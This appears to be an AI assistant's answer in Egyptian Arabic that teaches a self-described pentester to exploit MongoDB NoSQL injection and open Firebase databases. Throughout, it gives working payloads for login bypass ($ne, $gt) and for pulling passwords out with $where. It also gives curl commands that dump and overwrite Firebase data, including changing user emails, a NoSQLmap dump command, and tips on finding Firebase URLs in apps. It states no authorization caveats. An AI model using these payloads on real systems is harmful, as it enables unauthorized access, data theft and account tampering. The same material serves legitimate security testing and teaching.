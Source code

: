 تمام، هنشرح استغلالات **MongoDB** و**Firebase** بعمق عملي مع أكواد وتفاصيل، وهنركز على الجوانب اللي تهمك كـ pentester. هقسم الموضوع لجزئين (MongoDB وFirebase)، وبعد كل جزء هحط خلاصة طريفة بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال. يلا نبدأ!

---

### **1. MongoDB (NoSQL Injection)**
#### **إيه هو؟**
MongoDB هي قاعدة بيانات NoSQL، بتعتمد على صيغة JSON/BSON بدل الجداول التقليدية زي SQL. لو المطور معملش فلترة كويسة للمدخلات، ممكن تحقن كود يغير منطق الاستعلام ويطلعلك بيانات أو يخرب النظام.

#### **ازاي بيشتغل؟**
الموقع بياخد مدخلاتك (زي يوزر نيم وباسوورد) ويحطها في استعلام MongoDB. لو قدرت تحط تعبيرات زي `$ne` (غير مساوي) أو `$gt` (أكبر من)، تقدر تتخطى الشروط أو تسحب بيانات.

#### **مثال عملي:**
- **تخطي اللوجين:**
  لنفترض عندك فورم لوجين، والاستعلام في الباك إند كده:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
  لو حطيت في حقل اليوزر نيم: `admin` وفي الباسوورد:
  ```
  {"$ne": "wrong"}
  ```
  الطلب بيبقى:
  ```javascript
  db.users.find({ username: "admin", password: {"$ne": "wrong"} });
  ```
  معناه "جيب اليوزر admin طالما الباسوورد مش wrong"، يعني أي باسوورد صح هيدخلك.

- **سحب بيانات:**
  لو في حقل بحث، حط:
  ```
  {"$where": "this.username == 'admin'"}
  ```
  لو رد الموقع ببيانات، يبقى تقدر تلعب أكتر.

- **اختبار Blind:**
  حط في الباسوورد:
  ```
  {"$gt": ""}
  ```
  الاستعلام هيبقى:
  ```javascript
  db.users.find({ username: "admin", password: {"$gt": ""} });
  ```
  لو دخلت، يبقى الثغرة شغالة.

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد وكلمة السر مش غلط"، لو قالك "اتفضل ادخل" من غير ما يسألك عن الكلمة، يبقى الباب مفتوح لكل الناس!

---

### **2. Firebase (Realtime Database & Firestore Exploits)**
#### **إيه هو؟**
Firebase هي خدمة من جوجل لتخزين البيانات (Realtime Database أو Firestore)، بتستخدم كتير في تطبيقات الموبايل والويب. لو القواعد (Rules) مش مضبوطة، ممكن توصل لبيانات المستخدمين أو تعدلها.

#### **ازاي بيحصل؟**
Firebase بتعتمد على قواعد أمان (Security Rules). لو المطور سابها مفتوحة (`read: true` أو `write: true`) أو معتمد على مدخلات من غير فلترة، تقدر تستغلها.

#### **مثال عملي:**
- **اكتشاف قاعدة مفتوحة:**
  لو عندك لينك Firebase زي:
  ```
  https://example.firebaseio.com/.json
  ```
  افتحه في المتصفح أو بـ curl:
  ```
  curl -X GET "https://example.firebaseio.com/.json"
  ```
  لو رجعلك بيانات زي:
  ```json
  {"users": {"user1": {"email": "user1@example.com", "password": "123"}}}
  ```
  يبقى القاعدة مفتوحة وتقدر تسحب كل حاجة.

- **تعديل البيانات:**
  لو `write: true`، استخدم PUT:
  ```
  curl -X PUT -d '{"email": "hacked@example.com"}' "https://example.firebaseio.com/users/user1.json"
  ```
  هيغير بيانات اليوزر.

- **استغلال عبر مدخلات:**
  لو التطبيق بياخد إدخال زي `user_id` ويستعلم بيه:
  ```
  https://example.firebaseio.com/users.json?orderBy="user_id"&equalTo="1"
  ```
  جرب تحقن:
  ```
  https://example.firebaseio.com/users.json?orderBy="$key"&equalTo="admin"
  ```
  لو رجعلك بيانات الـ admin، يبقى في ثغرة.

#### **خلاصة طريفة:**
تخيل إنك بتدخل مخزن بتاع صاحبك وتلاقي الباب مفتوح والكاشير بيقولك "خد اللي عايزه وعدل اللي عايزه"، كده بقى المخزن كله تحت إيدك!

---

### **خطوات عملية للاستغلال كـ Pentester**

#### **MongoDB:**
1. **اختبار الثغرة:**
   - في فورم لوجين، جرب في الباسوورد:
     ```
     {"$ne": "wrong"}
     ```
     لو دخلت، يبقى في NoSQL Injection.

2. **تأكيد Blind:**
   - استخدم:
     ```
     {"$gt": ""}
     ```
     لو نجح، ابدأ سحب البيانات.

3. **سحب بيانات (Manual):**
   - جرب:
     ```
     {"$where": "this.username == 'admin' && this.password.length > 0"}
     ```
     وعدل الشرط عشان تستنتج الباسوورد.

4. **استخدام NoSQLmap:**
   ```
   nosqlmap -u "http://example.com/login.php?username=admin&password=test" --dump
   ```
   هيسحب البيانات لو الثغرة موجودة.

#### **Firebase:**
1. **اكتشاف قاعدة مفتوحة:**
   - جرب افتح:
     ```
     https://example.firebaseio.com/.json
     ```
     لو رجع بيانات، دوّنها.

2. **اختبار القواعد:**
   - استخدم GET:
     ```
     curl -X GET "https://example.firebaseio.com/users.json"
     ```
     لو ظهرت بيانات، يبقى `read: true`.

3. **تجربة الكتابة:**
   - جرب PUT:
     ```
     curl -X PUT -d '{"test": "hacked"}' "https://example.firebaseio.com/test.json"
     ```
     لو نجحت، يبقى `write: true`.

4. **استغلال الاستعلامات:**
   - لو في باراميتر زي `user_id`، جرب:
     ```
     https://example.firebaseio.com/users.json?orderBy="$key"&equalTo="admin"
     ```
     وشوف الرد.

#### **نصيحة:**
- لـ MongoDB، استخدم أدوات زي NoSQLmap لو عايز تسرع.
- لـ Firebase، ابحث عن الـ URL في كود التطبيق (APK أو JS) باستخدام أدوات زي apktool أو Burp Suite.

---

ها، عايز أشرح حاجة زيادة زي ازاي تستخرج Firebase URL أو أعمق في NoSQLmap؟